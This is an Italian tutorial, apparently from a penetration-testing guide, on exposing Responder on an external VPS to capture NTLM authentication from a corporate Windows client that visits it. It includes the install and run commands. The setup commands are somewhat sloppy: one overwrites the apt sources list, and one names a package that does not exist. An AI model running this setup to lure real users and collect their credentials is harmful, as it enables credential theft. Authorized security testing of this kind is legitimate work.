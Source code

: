 E' possibile richiedere un’autenticazione NTLM mediante un servizio esterno e spingere l’utente a visitare il relativo sito web.

Per effettuare questo test, è necessario possedere un server esterno alla rete aziendale, ad esempio un Virtual Private Server (VPS).

Nel seguente esempio, per semplicità, il sistema operativo da installare nella VPS sarà Debian.

Una volta che il sistema operativo è stato installato, è necessario installare [Responder](https://github.com/lgandx/Responder). Per fare ciò, accedere alla VPS (i.e., mediante SSH) ed eseguire i seguenti comandi sul terminale:
```
echo "deb http://http.kali.org/kali kali-rolling main contrib non-free non-free-firmware" | sudo tee /etc/apt/sources.list
sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys ED444FF07D8D0BF6
sudo apt-get update
sudo apt-get install responder net-tools ifconfig
```
Una volta che il processo di installazione dei pacchetti è terminato, eseguire Responder mediante:
```
sudo responder -I <net-interface>
```
dove `<net-interface>` corrisponde all’interfaccia di rete utilizzata dalla VPS per la connessione ad Internet (i.e., `eth0`). Per verificare quale sia l’interfaccia di rete utilizzata nella VPS, eseguire il comando `ifconfig`. Un esempio del comando è il seguente:
```
sudo responder -I eth0
```
Una volta eseguito, otterremo un output contenente la stringa **Responder IP [<IP-Address>]**. Esso corrisponde all’indirizzo IP con cui Responder è esposto su Internet per inviare richieste di autenticazione NTLM.

Infine, sul client Windows dell’utente, aprire il browser e inserire l’indirizzo IP fornito da Responder all’interno della barra degli indirizzi e premere ENTER.

Verrà mostrata una finestra di popup richiedente le credenziali.
